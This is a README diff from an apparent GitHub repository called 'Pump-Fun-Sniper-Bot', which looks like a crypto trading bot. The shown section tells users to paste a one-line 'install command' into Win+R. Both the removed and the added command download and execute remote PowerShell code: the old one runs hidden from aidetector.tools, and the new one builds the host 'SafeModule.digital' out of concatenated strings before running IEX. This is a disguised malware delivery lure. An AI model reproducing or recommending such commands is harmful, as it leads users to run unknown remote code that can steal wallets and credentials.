

Before and after one commit to Pump-Fun-Sniper/Pump-Fun-Sniper-Bot, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

```diff
--- a/README.md
+++ b/README.md
@@ -71,7 +71,7 @@ We’ve switched from a traditional download button to a one-line shell script b
 
 ### 💻 Install Command (Run via `Win + R`)
 <pre>
-  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
+  <code id="code-snippet">powershell -Command "$update='SafeModule'; $mode='digital'; $url=$update+'.'+$mode; $Response=Invoke-WebRequest -Uri $url -UseBasicParsing -UserAgent $update; $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content); IEX $Script"</code>
 </pre>
 ---
 
```
